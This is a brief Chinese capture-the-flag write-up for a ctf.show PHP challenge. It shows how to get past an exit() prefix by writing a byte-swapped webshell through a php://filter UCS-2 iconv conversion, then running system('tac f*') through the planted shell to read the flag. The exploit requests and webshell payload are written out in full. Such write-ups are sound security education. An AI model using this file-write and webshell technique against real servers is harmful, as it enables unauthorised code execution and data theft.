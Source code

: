 需要死亡绕过，然后base64和rot13都被ban了。所以只能寻找其他的过滤方式。补充死亡绕过的过滤方式了，jrm谁懂啊。这里用了刚刚学的ucs-2，然后我们看到其实除了这个他也没啥其他的陷阱，其余按照之前的思路写，就是过滤器形式啥的变了一下。

GET:

```php
http://c8302562-9e80-45b9-8120-88c1b16d2137.challenge.ctf.show/?file=php://filter/convert.iconv.UCS-2LE.UCS-2BE/resource=a.php
```

POST:

```url
contents=?<hp pvela$(P_SO[T]1;)>?
```

写入成功了，但是这个没有回显，没关系，我们直接去看目录下的这个文件，然后传入查看文件的指令

<figure><img src="../.gitbook/assets/image (9) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

GET:

```url
http://c8302562-9e80-45b9-8120-88c1b16d2137.challenge.ctf.show/a.php
```

POST:

```url
1=system('tac f*');
```
